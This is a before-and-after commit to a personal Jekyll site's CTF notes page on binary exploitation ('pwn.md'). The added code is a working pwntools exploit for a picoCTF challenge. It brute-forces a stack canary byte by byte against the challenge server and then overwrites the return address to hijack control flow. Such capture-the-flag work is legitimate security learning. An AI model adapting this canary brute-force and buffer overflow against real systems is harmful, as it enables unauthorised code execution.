

Before and after one commit to Connor-McCartney/Connor-McCartney.github.io, a Jekyll site: the page built from _pages/misc/pwn.md, in a window 1280 px wide and 1400 px high, scrolled down 10872 px. Shown: the top 1351 px of the window, without its empty margins (3-741 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; before the commit the page ends 11502 px from its top, so only the background shows below that.

Commit message:
Update pwn.md

````diff
--- a/_pages/misc/pwn.md
+++ b/_pages/misc/pwn.md
@@ -470,3 +470,33 @@ How Many Bytes will You Write Into the Buffer?
 Please create 'flag.txt' in this directory with your own debugging flag.
 [Inferior 1 (process 107530) exited normally]
 ```
+
+```python
+from pwn import process, p32, context, remote
+from tqdm import trange
+
+def get_canary():
+    canary = b""
+    for i in range(1, 5):
+        for c in trange(65, 256): #65 to speedup
+            with context.quiet:
+                #io = process("./vuln")
+                io = remote("saturn.picoctf.net", 54767)
+                io.sendlineafter(b"> ", str(64 + i).encode())
+                io.sendlineafter(b"> ", b'A'*64 + canary + chr(c).encode())
+                output = io.recvall()
+                io.close()
+            if b"?" in output:
+                canary += chr(c).encode()
+                break
+    return canary
+
+canary = get_canary()
+print(canary)
+
+io = process("./vuln")
+io.sendlineafter(b"> ", b"100")
+io.sendlineafter(b"> ", b'A'*64 + canary + b'B'*16 + p32(0x8049336))
+print(io.read())
+
+```
````
